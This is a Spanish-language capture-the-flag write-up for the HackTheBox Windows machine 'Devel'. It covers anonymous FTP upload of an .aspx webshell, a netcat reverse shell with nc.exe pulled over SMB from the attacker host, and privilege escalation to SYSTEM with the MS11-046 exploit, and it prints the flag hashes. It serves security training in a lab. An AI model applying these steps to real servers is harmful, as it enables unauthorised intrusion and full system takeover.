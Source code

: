 ```yaml
---
title: HackTheBox - Devel
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, IIS, MS11-046, Misconfiguration]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Devel/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Devel Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **IIS, MS11-046, Misconfiguration**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Devel`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Devel/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p21,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Devel/02-versions.png)

    + [x] Se encuentra habilitado la opción de **`Login como un usuario anónimo` en `FTP`**, con lo cual podemos acceder a este servicio sin necesidad de **`credenciales`**
    + [x] En el puerto **`80`** se ejecuta un **`IIS`** (Internet Information Services).

c. Accedemos al servicio **`FTP`** como **`anonymous`** y listamos el contenido

```bash
ftp <IP>
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49248|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
```

* Entramos a la página web y analizamos el código fuente. Veremos que la imagen que se presenta tiene por nombre **`welcome.png`**, que es el mismo fichero que está en el servicio **`FTP`**.

* Subiremos un archivo de prueba para ver si podemos acceder a este desde en servicio web.

    ```s
    ftp> put test.txt test.txt
    226 Transfer complete.
    ```

* Ahora vamos al servicio web y accedemos a este recurso

![](/assets/images/HTB/Easy/Devel/03-test.png)

d. Como notamos, el archivo que subimos al servicio **`FTP`** se refleja en el servicio web, por tanto, subiremos una **`webshell` .aspx** > [webshell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)

* Con esto ya podemos ejecutar comandos en la **`Máquina Víctima`**

    ![](/assets/images/HTB/Easy/Devel/04-webshell.png)

* **Obtener una reverse shell** 🔀

    1. Nos descargamos [nc](https://eternallybored.org/misc/netcat/) en nuestra **`Máquina Atacante`**
    2. Compartimos un recurso por **`SMB`**: **`impacket-smbserver Share ./ -smb2support`**
    3. En la **webshell** ejecutamos el comando **`copy \\<tun0 IP>\Share\nc.exe C:\Windows\Temp`**
    4. Nos ponemos en escucha en nuestra **`Máquina Atacante`**: **`nc -lvnp 443`**
    5. Ejecutamos netcat en la **`Máquina Víctima a través de la Webshell`**:

        ![](/assets/images/HTB/Easy/Devel/05-reverse.png)

    * **Máquina Atacante**

        ```bash
        connect to [10.10.14.115] from (UNKNOWN) [10.10.10.5] 49245
        Microsoft Windows [Version 6.1.7600]
        Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
        c:\windows\system32\inetsrv>
        ```

### Escalada de Privilegios 💹

a. Enumeramos la información del sistema con **`systeminfo`**

```cmd
OS Name:            Microsoft Windows 7 Enterprise
OS Version:         6.1.7600 N/A Build 7600
OS Manufacturer:    Microsoft Corporation
```

 * Vemos que es una versión antigua de **`Windows`**

b. Al buscar por un exploit para esta versión de Windows vemos [ms11-046](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe)

c. Para transferir este exploit a la **`Máquina Víctima`** seguiremos los mismos pasos de **Obtener una revershell 🔀**

d. Ejecutamos el script y ya tendremos acceso como **`Adminstrador`**

```bash
C:\Windows\Temp>ms11-046.exe
c:\Windows\System32>whoami
nt authority\system
```

e. Por último vemos las **`flags` de usuario y root**

```cmd
c:\Users\babis\Desktop>type user.txt
48d0837eebb3f87ba7cf0be20ee53012

C:\Users\Administrator\Desktop>type root.txt
3ee446d2151a7627cd28cf5e5f4075ce
```